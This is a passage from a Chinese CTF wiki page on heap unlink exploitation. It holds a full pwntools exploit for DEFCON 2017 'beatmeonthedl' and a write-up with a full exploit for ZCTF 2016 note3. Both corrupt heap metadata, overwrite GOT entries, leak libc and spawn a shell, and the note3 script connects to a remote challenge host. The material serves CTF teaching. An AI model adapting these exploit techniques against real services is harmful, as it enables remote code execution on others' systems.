        p.recvuntil("Increase Robot Devil's cruelty: ")
        p.sendline(str(size))
    elif idx == 6:
        p.recvuntil("Increase Destructor's powerful: ")
        p.sendline(str(size))


def remove(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))


def change(idx, name):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    p.recvuntil("Robot's name: \n")
    p.send(name)


def start_robot():
    p.recvuntil('Your choice :')
    p.sendline('4')


def overflow_benderinuse(inuse):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.send('9999' + inuse)


def write(where, what):
    change(1, p64(where))
    change(6, p64(what))


def exp():
    print "step 1"

    # add a fastbin chunk 0x20 and free it
    # so it is in fastbin, idx2->NULL
    add(2, 1)  # idx2
    remove(2)

    # overflow bender inuse with 1
    overflow_benderinuse('\x01')

    # change bender's fd to 0x603138, point to bender's size
    # now fastbin 0x20, idx2->0x603138->NULL
    change(2, p64(0x603138))

    # in order add bender again
    overflow_benderinuse('\x00')

    # add bender again, fastbin 0x603138->NULL
    add(2, 1)

    # in order to malloc chunk at 0x603138
    # we need to bypass the fastbin size check, i.e. set *0x603140=0x20
    # it is at Robot Devil
    add(3, 0x20)

    # trigger malloc, set tinny point to 0x603148
    add(1)

    # wheels must <= 3
    remove(2)
    remove(3)

    print 'step 2'

    # alloc Destructor size 60->0x50, chunk content 0x40
    add(6, 3)

    # alloc devil, size=20*7=140, bigger than fastbin
    add(3, 7)

    # edit destructor's size to 1000 by tinny
    change(1, p64(1000))

    # place fake chunk at destructor's pointer
    fakechunk_addr = 0x6030E8
    fakechunk = p64(0) + p64(0x20) + p64(fakechunk_addr - 0x18) + p64(
        fakechunk_addr - 0x10) + p64(0x20)
    fakechunk = fakechunk.ljust(0x40, 'a')
    fakechunk += p64(0x40) + p64(0xa0)
    change(6, fakechunk)

    # trigger unlink
    remove(3)

    print 'step 3'

    # make 0x6030F8 point to 0x6030E8
    payload = p64(0) * 2 + 0x18 * 'a' + p64(0x6030E8)
    change(6, payload)

    print 'step 4'

    # make exit just as return
    write(robots.got['exit'], 0x401954)

    print 'step 5'

    # set wheel cnt =3, 0x603130 in order to start robot
    write(0x603130, 3)

    # set destructor point to puts@got
    change(1, p64(robots.got['puts']))
    start_robot()
    p.recvuntil('New hands great!! Thx ')
    puts_addr = p.recvuntil('!\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    log.success('libc base: ' + hex(libc_base))
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    # make free->system
    write(robots.got['free'], system_addr)

    # make destructor point to /bin/sh addr
    write(0x6030E8, binsh_addr)

    # get shell
    remove(6)
    p.interactive()


if __name__ == "__main__":
    exp()

```

### 题目

- [DEFCON 2017 Qualifiers beatmeonthedl](https://github.com/Owlz/CTF/raw/master/2017/DEFCON/beatmeonthedl/beatmeonthedl)

### 参考

- malloc@angelboy
- https://gist.github.com/niklasb/074428333b817d2ecb63f7926074427a


## note3
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/ZCTF_2016_note3)

### 介绍

ZCTF 2016的一道题目，考点是safe unlink的利用。

### 题目介绍

题目是一个notepad，提供了创建、删除、编辑、查看笔记的功能

```
1.New note
2.Show note
3.Edit note
4.Delete note
5.Quit
option--->>
```

保护如下所示

```
Canary                        : Yes
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

### 功能概述

程序New功能用来新建笔记，笔记的大小可以自定只要小于1024字节。

```
int new()
{
  puts("Input the length of the note content:(less than 1024)");
  size = get_num();
  if ( size < 0 )
    return puts("Length error");
  if ( size > 1024 )
    return puts("Content is too long");
  heap_ptr = malloc(size);
  puts("Input the note content:");
  my_read(heap_ptr, size, '\n');
  bss_ptr[i] = heap_ptr;
  current_ptr[i + 8LL] = size;
  current_ptr[0] = bss_ptr[i];
  return printf("note add success, the id is %d\n", i);
}
```

所有的笔记malloc出来的指针存放在bss上全局数组bss_ptr中，这个数组最多可以存放8个heap_ptr。
而且heap_ptr对应的size也被放在bss_ptr数组中。current_ptr表示当前笔记，bss布局如下。

```
.bss:
current_ptr
note0_ptr
note1_ptr
note2_ptr
note3_ptr
note4_ptr
note5_ptr
note6_ptr
note7_ptr
note0_size
note1_size
note2_size
note3_size
note4_size
note5_size
note6_size
note7_size
```

Show功能是无用的功能，edit和delete可以编辑和释放note。

### 漏洞

漏洞存在于edit功能中，这里面在获取用户输入的id号之后并没有进行验证。如果输入的id是负数的话依然可以执行。
在get_num函数中存在整数溢出漏洞，我们可以获得一个负数。

```
int edit()
{

  id = get_num();
  data_ptr = ptr[id];
  if ( data_ptr )
  {
    puts("Input the new content:");
    my_read(ptr[id], current_ptr[id + 8], '\n');
    current_ptr[0] = ptr[id];
    data_ptr = puts("Edit success");
  }
}
```

因此我们可以使得edit读入cuurent_ptr，使用的size是note7_ptr
```
.bss:
current_ptr <== edit ptr
note0_ptr
note1_ptr
note2_ptr
note3_ptr
note4_ptr
note5_ptr
note6_ptr
note7_ptr   <== size
note0_size
note1_size
note2_size
note3_size
note4_size
note5_size
note6_size
note7_size
```
首先创建8个note，然后edit note3使current_ptr指向note3，之后使用-1溢出note3
```
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')

edit(3,'a')
edit(-9223372036854775808,data);
```

我们使用的溢出数据是用于构造一个fake chunk来实现safe unlink的利用，具体的原理可以看这一章节的讲解。

```
data = ''
data += p64(0) + p64(512+1) #fake chunk header
data += p64(0x6020e0-0x18) + p64(0x6020e0-0x10) #fake fd and bk
data += 'A'*(512-32)
data += p64(512) + p64(512+16)
```

之后释放note4，note3与note4就会合并。note3_ptr会指向note0_ptr的位置。这样我们通过不断的修改note0_ptr的值和edit note0就可以实现任意地址写数据。

但是题目没有提供show功能，所以无法进行任意地址读，也就无法泄漏数据。
这里采用的办法是把free的got表改为printf的值，然后在bbs中一块空白的区域写入"%x"。
这样当free这块区域（这块区域在ptr_array中，所以可以直接传递给free），就可以泄漏出栈中的数据。
通过栈中的libc地址求出system的地址就可以利用任意地址写获得shell

```
free(4)

edit(3,free_got)
edit(0,printf_plt)

edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)
```
完成的exp如下

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
def malloc(size,data):
    print conn.recvuntil('>>')
    conn.sendline('1')
    print conn.recvuntil('1024)')
    conn.sendline(str(size))
    print conn.recvuntil('content:')
    conn.sendline(data)
    print conn.recvuntil('\n')
def edit(id,data):
    print conn.recvuntil('>>')
    conn.sendline('3')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('ent:')
    conn.sendline(data)
    print conn.recvuntil('success')
def free(id):
    print conn.recvuntil('>>')
    conn.sendline('4')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('success')

conn = remote('115.28.27.103',9003)
free_got = p64(0x602018)
puts_got = p64(0x602020)
stack_got = p64(0x602038)
printf_got = p64(0x602030)
exit_got = p64(0x602078)
printf_plt = p64(0x400750)
puts_plt = p64(0x400730)

#libcstartmain_ret_off = 0x21b45
#sys_off = 0x414f0

libcstartmain_ret_off = 0x21ec5
sys_off = 0x46640

# 1. int overflow lead to double free
intoverflow = -9223372036854775808
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,'/bin/sh\0')
malloc(512,p64(0x400ef8))
malloc(512,'/bin/sh\0')

# 2. make a fake chunk and modify the next chunk's pre size
fakechunk = p64(0) + p64(512+1) + p64(0x6020e0-0x18) + p64(0x6020e0-0x10) + 'A'*(512-32) + p64(512) + p64(512+16)
edit(3,'aaaaaa')
edit(intoverflow,fakechunk)

# 3. double free
free(4)

# 4. overwrite got
edit(3,free_got)
edit(0,printf_plt+printf_plt)

# 5. leak the stack data
edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)

# free->puts
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))

ret =  conn.recvuntil('success')
print ret

# 6. calcuate the system's addr
libcstart = ret.split('.')[10]
libcstart_2 = int(libcstart,16) - libcstartmain_ret_off
print 'libc start addr:',hex(libcstart_2)
system_addr = libcstart_2 + sys_off
print 'system_addr:',hex(system_addr)

# 7. overwrite free's got
edit(3,free_got)
edit(0,p64(system_addr)+printf_plt)

# 8. write argv
edit(3,p64(0x6020d0))
edit(0,'/bin/sh\0')

# 9. exploit
print conn.recvuntil('>>')
conn.sendline('4')
print conn.recvuntil('note:')
conn.sendline(str(0))
sleep(0.2)
conn.interactive()
```
